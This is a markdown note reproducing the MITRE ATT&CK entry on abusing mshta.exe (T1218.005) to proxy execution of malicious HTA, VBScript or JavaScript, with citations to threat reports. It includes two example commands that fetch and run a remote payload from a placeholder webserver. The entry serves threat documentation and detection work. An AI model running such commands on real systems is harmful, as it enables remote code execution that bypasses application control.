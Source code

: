 ```yaml
---
alias: Mshta
---
```


## Mshta

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)


### Tactic

- [[Defense Evasion]] (TA0005)


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1218/005
- Cylance Dust Storm: https://s7d2.scene7.com/is/content/cylance/prod/cylance-web/en-us/resources/knowledge-center/resource-library/reports/Op_Dust_Storm_Report.pdf
- Red Canary HTA Abuse Part Deux: https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/
- FireEye Attacks Leveraging HTA: https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html
- Airbus Security Kovter Analysis: https://airbus-cyber-security.com/fileless-malware-behavioural-analysis-kovter-persistence/
- FireEye FIN7 April 2017: https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html
- Wikipedia HTML Application: https://en.wikipedia.org/wiki/HTML_Application
- MSDN HTML Applications: https://msdn.microsoft.com/library/ms536471.aspx
- LOLBAS Mshta: https://lolbas-project.github.io/lolbas/Binaries/Mshta/

